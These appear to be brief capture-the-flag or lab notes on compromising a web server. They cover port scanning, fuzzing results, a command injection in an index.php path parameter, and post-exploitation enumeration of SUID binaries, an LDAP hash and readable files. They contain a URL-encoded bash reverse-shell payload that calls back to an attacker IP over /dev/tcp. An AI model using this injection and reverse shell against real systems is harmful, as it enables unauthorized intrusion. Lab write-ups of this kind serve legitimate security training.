 start with nmap

port

8022 ssh 
80
2222

****

http 80

site uses php.

```
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376]
index.php               [Status: 200, Size: 329, Words: 54, Lines: 17]
info.php                [Status: 200, Size: 69037, Words: 3292, Lines: 760]


```
/index.php listed the some directory.

comment in /index.php `<!--  where is the path ?  -->`

directory listing found on /index.php?path=/

cmd execution found on 

/index.php?path=/;whoami

got shell : `bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.17.9.112%2F1337%200%3E%261%22`

***

privs 

/usr/share/man/zh_TW/crypt : suid bit set.


[+] Looking for ldap directories and their hashes                                                                     
/etc/ldap                                                                                                             
The password hash is from the {SSHA} to 'structural'    



Found readable /etc/cloud/cloud.cfg

/usr/bin/gettext.sh

/home/mike/.bash_history

/usr/config